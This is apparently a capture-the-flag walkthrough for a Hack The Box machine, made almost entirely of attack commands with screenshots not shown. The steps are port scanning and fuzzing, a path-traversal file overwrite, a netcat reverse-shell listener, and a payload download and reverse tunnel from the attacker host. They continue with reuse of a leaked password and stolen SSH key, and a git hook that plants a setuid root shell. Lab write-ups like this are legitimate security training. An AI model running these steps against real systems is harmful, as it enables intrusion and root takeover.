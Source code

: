 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.164
```
![image](https://github.com/regarmulia/HTB/assets/33616880/bd23ea8e-8d62-47e6-b5dc-85b954b967a3)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.164/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5795739c-4a17-4504-8488-d1ace66b3196)


```
source.zip
git log
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e3fad636-4220-495e-bb1d-56e184b5896c)

![image](https://github.com/regarmulia/HTB/assets/33616880/d789400c-a783-427a-912f-402b6a3abb62)

![image](https://github.com/regarmulia/HTB/assets/33616880/259419d5-99bc-40eb-93a0-9564fe70068c)


```
http://10.10.11.164/upcloud
sample
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b4583816-0a36-4f81-9a89-397b094bae2e)


```
Views.py
```
![image](https://github.com/regarmulia/HTB/assets/33616880/193201c3-0cea-4314-a186-70c17f23143e)


```
..//app/app/views.py
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d1f0daa-1966-4db5-b468-26485f7bd868)

![image](https://github.com/regarmulia/HTB/assets/33616880/0b21c820-b480-440a-94f3-4b8412476caf)


```
nc -lvnp 443
http://10.10.11.164/0xdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3435d421-6ef9-4832-abe4-507d7b8c0462)


```
ifconfig
```
![image](https://github.com/regarmulia/HTB/assets/33616880/187abd6f-a957-4a27-a578-4ec59fe32b48)


```
wget http://10.10.14.2:8000/chisel_1.9.0_linux_amd64
```
![image](https://github.com/regarmulia/HTB/assets/33616880/710b1a2f-ba49-4b90-909f-c340735bdc2d)


```
/chisel_1.9.0_linux_amd64 server -p 8000 –reverse
./chisel_1.9.0_linux_amd64 client 10.10.14.2:8000 R:3000:172.17.0.1:3000
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2f932b94-17a3-440f-946b-43b1885d3c3f)

![image](https://github.com/regarmulia/HTB/assets/33616880/261f4c2e-61ba-4924-b826-e91e62068968)


```
http://127.0.0.1:3000/
Soulless_Developer#2022
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c4e06b02-b002-47d4-8f27-9874144fdb20)


```
http://127.0.0.1:3000/dev01/home-backup/src/branch/main/.ssh/id_rsa
```
![image](https://github.com/regarmulia/HTB/assets/33616880/111d3d4a-6636-4f38-b2b0-24b20a9030ca)


```
ssh -i id_rsa dev01@10.10.11.164
```
![image](https://github.com/regarmulia/HTB/assets/33616880/253a8ec4-8df2-4dfd-9717-acc2eaabe53f)


```
./pspy64
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0370c502-059d-4b9c-8101-6b96ae788174)


```
/usr/local/bin/git-sync
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf' > pre-commit
ls -l /tmp/0xdf
/tmp/0xdf -p
```
